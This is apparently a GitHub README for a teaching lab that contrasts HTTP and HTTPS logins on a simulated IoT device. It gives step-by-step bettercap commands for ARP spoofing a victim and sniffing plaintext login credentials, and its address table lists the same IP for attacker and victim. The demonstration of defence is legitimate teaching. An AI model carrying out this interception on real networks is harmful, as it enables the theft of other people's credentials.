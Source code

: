 # 🔐 HTTPS-IoT Demo: Secure Web Login Against MITM Attacks

This project demonstrates how HTTPS protects user credentials from interception by man-in-the-middle (MITM) attacks. It simulates a login page for an IoT device served over both HTTP and HTTPS, allowing a clear comparison between insecure and secure communication.

📌 Project Overview
- 🔓 **HTTP Mode**: Credentials are sent in plaintext, easily captured via ARP spoofing + packet sniffing.
- 🔒 **HTTPS Mode**: Credentials are encrypted with TLS. MITM attacks will not reveal any sensitive data without the client trusting a malicious certificate.


### Requirements

- `Python 3.x`
- Flask (`pip install flask`)
- A Kali Linux with `bettercap` installed (usually preinstalled)
- Victim device (e.g., another VM or physical device) 

Role | IP Example  
---- | ----- 
Attacker (Kali VM) | 192.168.1.125
Server (This project) | 192.168.1.108
Victim (Ubuntu VM) |	192.168.1.125

*Ensure all devices are on the same LAN or bridge network.*

### 🔓Attack HTTP with Bettercap
**1. Enable IP Forwarding (Kali)**

　`echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward`

**2. Launch Bettercap**

　`sudo bettercap -iface eth0`

　Replace eth0 with your Kali's actual network interface (use `ip a` to check).

**3. In Bettercap console**

　`set arp.spoof.targets 192.168.1.125`  Target the victim

　`arp.spoof on`

**4. Enable HTTP sniffing (for login form capture)**

　`set http.proxy.script /usr/share/bettercap/caplets/http-req-dump/http-req-dump.js`

　`http.proxy on`

　`net.sniff on`

**5. From the server machine**

`py server.py`

By default, it runs at: `http://0.0.0.0:8080`

**6. From the Victim Machine**

　Open browser and visit:

　`http://192.168.1.108:8080/login.html`

　Login with any credentials.

**📥 What You Capture**

In the Bettercap terminal or Web UI (Events), you will see:

`[net.sniff.http.request] POST /login
　username=XXXX&password=YYYY`

### 🔒Defense with HTTPS
Once the server is upgraded to HTTPS (`https://192.168.1.108:8443`):

Credentials are encrypted

Bettercap will not capture login data unless:

- You use `https.proxy on`

- The victim trusts Bettercap's MITM certificate



## 📂 Folder Structure
MITM/  
    ├── README.md  
    ├── dashnewv10.html          # Simulated dashboard page  
    ├── fetchbannaprice.html       
    ├── index.html                 
    ├── login.html               # Login form page (for capture/testing)  
    ├── server.py                # A script to start a local HTTP/HTTPS service  
    ├── ssl/                   # Self-signed certificate  
    　　├── iot-dash.crt  
    　　└── iot-dash.key  
    └── .idea/                     


